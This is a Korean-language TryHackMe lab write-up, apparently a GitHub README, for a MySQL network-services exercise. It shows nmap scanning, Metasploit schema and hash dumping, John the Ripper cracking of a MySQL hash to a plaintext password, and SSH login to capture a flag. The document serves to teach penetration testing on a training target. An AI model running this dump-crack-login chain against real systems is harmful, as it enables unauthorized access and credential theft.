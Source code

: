 # TryHackMe - Network Services 2 (MySQL)

> 이 실습은 TryHackMe의 Network Services 2 챕터 중 MySQL을 활용한 공격 시나리오입니다. 포트 스캔부터 DB 접속, 해시 크랙, 최종 SSH 접근 및 플래그 획득까지의 전 과정을 다룹니다.

---

## 1. 실습 개요

- **타깃 머신 IP**: `10.10.92.222`
- **공격 머신 환경**: Kali Linux 2023.4
- **실습 일자**: 2025-04-15
- **사용 도구**:
  - `nmap`: 포트 및 서비스 정보 수집
  - `mysql`: 직접 DB 접속 확인
  - `Metasploit Framework`: DB 버전, 스키마, 해시 덤프 등 정보 수집
  - `John the Ripper`: 비밀번호 해시 크랙
  - `ssh`: 시스템 로그인

---

## 2. 정보 수집

### 2.1 포트 스캔

```bash
nmap -A -vv -p- -T4 10.10.92.222 -oN nmap_scan.txt
```
- 설명: 모든 포트를 대상으로 서비스 및 버전 정보, 운영체제 탐지까지 수행. 결과적으로 22번(SSH), 3306번(MySQL) 포트가 열려 있으며 각각 OpenSSH 7.6p1 및 MySQL 5.7.29 버전이 실행 중인 것을 확인 하였습니다. 인증서 정보와 인증 방식(mysql_native_password)도 수집된 걸 알수 있습니다.

| 포트 | 서비스 | 설명 |
|------|---------|------------------------------|
| 22/tcp | ssh     | OpenSSH 7.6p1 (Ubuntu Linux) |
| 3306/tcp | mysql  | MySQL 5.7.29 (Ubuntu 18.04)   |

- 상세 스캔 결과: [nmap_scan.txt](./nmap_scan.txt) 파일 참조

---

## 3. 실습 과정

### 3.1 MySQL 직접 접속 확인

- 설명: 문제에서 제공된 아이디 비밀번호를 통해 기본 계정 정보를 이용해 DB에 직접 접속 가능한지 테스트 했습니다. 인증에 성공하면 내부 탐색이 가능합니다.

```bash
mysql -h 10.10.92.222 -u root -p
# password: password
```

![MySQL 로그인 성공](./screenshots/mysql_login.png)

---

### 3.2 Metasploit - MySQL 버전 확인

- 설명: Metasploit의 `mysql_sql` 모듈을 통해 MySQL 버전 정보를 확인 하였습니다. 취약점 존재 여부 판단에 활용을 위해 이 모듈을 사용했습니다.

```bash
use auxiliary/admin/mysql/mysql_sql
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_sql 모듈 옵션 확인](./screenshots/msf_mysql_sql_module.png)

- 버전 확인 결과

![MySQL 버전 확인 결과](./screenshots/msf_mysql_version_result.png)

- 후에 DB 목록 확인을 위해 아래 명령어를 사용했습니다.

```bash
set sql show databases
```

![SQL로 DB 목록 확인](./screenshots/msf_schema_show_dbs.png)

---

### 3.3 Metasploit - 스키마 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 `mysql_schemadump` 모듈을 사용해 DB 서버에 저장된 전체 데이터베이스 목록을 수집하기 위해 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_schemadump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_schemadump 모듈 옵션 보기](./screenshots/msf_schema_dump_module.png)

- 스키마 덤프 결과

![스키마 덤프 결과](./screenshots/msf_schema_dump_result.png)

- DB 스캔 결과: [db.txt](./db.txt) 파일 참조 (파일 내용 매우 김.)

---

### 3.4 Metasploit - 해시 덤프

- 설명: 사용자 계정과 패스워드를 이용하여 해시를 덤프하기 위해 `mysql_hashdump` 모듈을 사용하였습니다.

```bash
use auxiliary/scanner/mysql/mysql_hashdump
set rhosts 10.10.92.222
set username root
set password password
exploit
```

![mysql_hashdump 모듈 옵션 보기](./screenshots/msf_hashdump_module.png)

- 또 다른 사용자 해시 수집됨:
```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

![사용자 해시 정보 획득](./screenshots/msf_hashdump_result.png)

---

### 3.5 John the Ripper로 비밀번호 크랙

- 설명: 이 해시는 MySQL 5.x 버전에서 사용하는 native password 인증 해시로, `SHA1(SHA1(password))` 방식입니다. 따라서 John에서 `--format=mysql-sha1` 옵션을 사용해 크랙을 시도하였습니다.

- 추가: 우선 가져온 사용자 이름과 해시 비밀번호를 `hash.txt`에 복사를 하여 실행을 했습니다.

```bash
vi hash.txt
john --format=mysql-sha1 hash.txt
john --show hash.txt
```

- 결과: `carl:doggie`

![John 해시 크랙 결과](./screenshots/john_crack_hash.png)

---

### 3.6 SSH 접속 및 플래그 획득

- 설명: 크랙한 계정 정보를 사용해 SSH로 시스템에 접근하고, 사용자 홈 디렉토리에서 `MySQL.txt` 파일 확인하여 플래그를 확보 했습니다.

```bash
ssh carl@10.10.92.222
# password: doggie
```

- 획득한 플래그: `THM{congratulations_you_got_the_mySQL_flag}`

![SSH 접속 및 flag 획득](./screenshots/ssh_login_flag.png)

---

## 4. 배운 점

- Metasploit을 활용한 DB 정보 수집이 굉장히 강력하다는걸 깨달았다. (schemadump, hashdump)
- MySQL 해시 형식(`mysql-sha1`)을 식별하고 John으로 정확히 크랙하는 방법을 습득 하였다.
- 단일 서비스에서 시작해도 SSH까지 이어지는 공격 시나리오 구성이 가능하다는 걸 알았다.
- DB 인증정보 재사용 여부가 보안에 미치는 영향을 체감했다.



